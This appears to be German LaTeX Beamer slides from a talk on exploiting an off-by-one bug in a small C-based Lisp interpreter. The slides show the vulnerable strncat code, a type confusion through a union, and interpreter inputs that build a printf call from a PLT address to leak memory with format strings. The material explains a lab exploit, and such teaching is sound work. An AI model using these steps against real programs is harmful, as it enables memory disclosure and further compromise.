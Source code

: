 \section[Exploit]{Exploit}

\begin{frame}[fragile]
    \frametitle{Schwachstelle Off-By-One}
in der read Funktion:
	\begin{lstlisting}[language=C]
if (tokenlen > MAXTOKENLEN) {
       print_err("Token to long! Maximum token size: %d\n",MAXTOKENLEN);
       exit(-1);
}
	\end{lstlisting}
Diese ruft anschließende folgende Funktion auf:
	\begin{lstlisting}[language=C]
expr *create_exprsym(const char *s)
{
        expr *new = create_expr(EXPRSYM);
        strncat(new->symvalue, s, MAXTOKENLEN);
        return new;
}
\end{lstlisting}
\pause
\begin{itemize}
\item Nächstes Byte wird auf 0 gesetzt bei MAXTOKENLEN (hier: 32).
\item Dadurch wird der Typ von SYMBOLE auf PROCEDURE gestellt
\item Durch union werden die erste 4 byte als Pointer auf PROCEDURE interpretiert

\end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Schwachstelle - printf Funktion erstellen}
Genau 32 Zeichen:
\begin{lstlisting}
> (define test abcdeeeeeeffffffffffgggggggggghh)
> test
 PROC: 0x64636261 
\end{lstlisting}
printf in plt:
\begin{lstlisting}
> (define printfproc \x60\x86\x04\x08aaaaaabbbbbbbbbbccccccccccdd)
\end{lstlisting}
call printf with \texttt{"\%2\$p\textbackslash n"}
\begin{lstlisting}
> (printfproc 0xa70243225)
> 0x667440
\end{lstlisting}
call printf with \texttt{"\%9\$p\textbackslash n"}
\begin{lstlisting}
> (printfproc 0xa70243925)
> 0x8417838
\end{lstlisting}
\end{frame}


